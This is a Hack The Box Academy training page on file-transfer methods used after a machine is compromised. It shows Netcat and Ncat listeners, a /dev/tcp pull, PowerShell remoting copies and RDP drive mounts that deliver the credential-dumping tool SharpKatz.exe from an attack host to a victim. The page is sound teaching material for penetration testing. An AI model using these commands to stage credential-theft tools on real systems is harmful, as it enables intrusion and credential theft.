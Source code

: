 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/24/section/161
// Platform Version: V1
// Module ID: 24
// Module Name: File Transfers
// Module Difficulty: Medium
// Section ID: 161
// Section Title: Miscellaneous File Transfer Methods
// Page Title: File Transfers
// Page Number: 05
-->

# Miscellaneous File Transfer Methods

**Module Name:** File Transfers **Page Number:** 05

#### FILE TRANSFERS

# Miscellaneous File Transfer Methods

## Netcat

## File Transfer with Netcat and Ncat

#### NetCat - Compromised Machine - Listening on Port 8000

``` shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

#### Ncat - Compromised Machine - Listening on Port 8000

``` shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

#### Netcat - Attack Host - Sending File to Compromised machine

``` shell-session
[!bash!]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
[!bash!]$ # Example using Original Netcat
[!bash!]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

#### Ncat - Attack Host - Sending File to Compromised machine

``` shell-session
[!bash!]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
[!bash!]$ # Example using Ncat
[!bash!]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Netcat

``` shell-session
[!bash!]$ # Example using Original Netcat
[!bash!]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File

``` shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat

``` shell-session
[!bash!]$ # Example using Ncat
[!bash!]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

``` shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

#### NetCat - Sending File as Input to Netcat

``` shell-session
[!bash!]$ # Example using Original Netcat
[!bash!]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Netcat

``` shell-session
[!bash!]$ # Example using Ncat
[!bash!]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

``` shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer

#### From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.

``` powershell-session
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

``` powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

#### Create a PowerShell Remoting Session to DATABASE01

``` powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

#### Copy samplefile.txt from our Localhost to the DATABASE01 Session

``` powershell-session
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

#### Copy DATABASE.txt from DATABASE01 Session to our Localhost

``` powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP

#### Mounting a Linux Folder Using rdesktop

``` shell-session
[!bash!]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

#### Mounting a Linux Folder Using xfreerdp

``` shell-session
[!bash!]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

![https://academy.hackthebox.com/storage/modules/24/tsclient.jpg](https://academy.hackthebox.com/storage/modules/24/tsclient.jpg)

![https://academy.hackthebox.com/storage/modules/24/rdp.png](https://academy.hackthebox.com/storage/modules/24/rdp.png)

## Practice Makes Perfect

# 

# 

#### Optional Exercises

####